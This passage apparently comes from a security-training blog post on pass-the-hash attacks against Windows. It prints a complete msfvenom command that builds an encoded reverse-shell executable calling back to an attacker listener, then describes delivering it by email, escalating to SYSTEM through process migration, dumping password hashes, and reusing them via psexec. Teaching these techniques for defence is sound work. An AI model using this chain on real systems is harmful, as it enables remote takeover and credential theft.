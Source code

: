 Password hashes are available on Lsass.exe and various tools such as Gsecdump, pwdump7, mimikatz, and Metasploit hashdump module have been produced to obtain the hash. When these tools are run by authorized users, the desired data is obtained.

### **3.1. Example Attack**

  

In order to establish the first contact with the target system, malware is sent to the victim via e-mail or other methods. For this attack, the malware was created with msfvenom.

![](https://letsdefend.io/blog/wp-content/uploads/2022/12/image-63.png)

(Created reverse shell with msfvenom)

**Command:** msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp lhost=192.168.2.120 lport=4343 -b '\x00' -e x86/shikata_ga_nai -f exe -o shell.exe  
  

After the malware is sent to the victim, the meterpreter session is expected.

![](https://letsdefend.io/blog/wp-content/uploads/2022/12/image-62.png)

(Waiting for the victim to open the file)

  
  
The meterpreter session starts when the target person opens the file.  
  

![](https://letsdefend.io/blog/wp-content/uploads/2022/12/image-61.png)

After the session, the hashdump module is used to obtain password hashes, but the process cannot be performed because the necessary privileges are not available.

![](https://letsdefend.io/blog/wp-content/uploads/2022/12/image-60.png)

In this case, it is necessary to upgrade the privileges on the target system.

With the "ps" command, the processes running on the system are listed and the process running with NT AUTHORITY\SYSTEM authority is searched.

![](https://letsdefend.io/blog/wp-content/uploads/2022/12/image-59.png)

After the relevant process is found, it is switched to the process with the "migrate" command, and its system privileges are accessed.

![](https://letsdefend.io/blog/wp-content/uploads/2022/12/image-58.png)

After having the highest privileges to be reached, password hashes are obtained with the hashdump module.

![](https://letsdefend.io/blog/wp-content/uploads/2022/12/image-57.png)

After the hashes are obtained, the relevant data is loaded into the psexec module in Metasploit and the attack is started and the system is accessed by the admin user.

![](https://letsdefend.io/blog/wp-content/uploads/2022/12/image-56.png)
